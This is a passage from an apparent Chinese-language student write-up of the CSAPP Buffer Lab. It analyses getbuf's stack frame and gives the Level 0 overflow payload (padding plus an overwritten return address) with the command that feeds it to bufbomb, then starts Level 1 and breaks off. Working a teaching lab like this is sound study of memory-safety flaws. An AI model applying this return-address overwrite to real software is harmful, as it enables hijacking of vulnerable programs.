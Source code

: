 ```cpp
080491f4 <getbuf>:
 push   %ebp
 mov    %esp,%ebp
 sub    $0x38,%esp
 lea    -0x28(%ebp),%eax
 mov    %eax,(%esp)
 call   8048cfa <Gets>
 mov    $0x1,%eax
 leave  
 ret    
/*
解题过程：
在getbuf函数中
lea    -0x28(%ebp),%eax
mov    %eax,(%esp)
两句将 %ebp - 0x28 的值放在了栈顶
此值向Gets函数传参
(栈顶地址为 %ebp - 0x38 不重要，只是顺便一提)
而%ebp的值为此函数栈底地址(此前有 mov %esp,%ebp)
故Gets函数的参数(即存放读入数据的起始地址)离栈底的距离为0x28+0x4
加0x4是因为在栈底保存了ebp的值(push %ebp)
level0.txt内容如下
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
然后
cat level0.txt|./hex2raw|./bufbomb -u random
*/
```
<img width="601" alt="image" src="https://github.com/RaDsZ2z/CSAPP/assets/129292565/83365899-b9d3-452e-9367-286656585768">

### 6.2.关于 leave 指令
getbuf函数倒数第二行有leave指令，第一次见

它相当于
```
mov %ebp, %esp
pop %ebp
```


## <div id="level1">7.Level 1:Sparkler(10 pts)</div>
BUFBOMB中的fizz函数有如下C语言代码
```C
void fizz(int val){
    int (val == cookie){
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else 
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
与level0类似，你的任务是让BUFBOMB执行fizz函数而不是返回到test函数。然而，在这种情况下你必须让它看起来传递了参数cookie。
### 7.1.一些建议
请注意程序不会真正调用fizz——而只是执行它的代码。这对你在堆的什么位置放置你的cookie有重要的影响。
```cpp
//解题过程：
//fizz函数汇编代码翻译
push %ebp;
```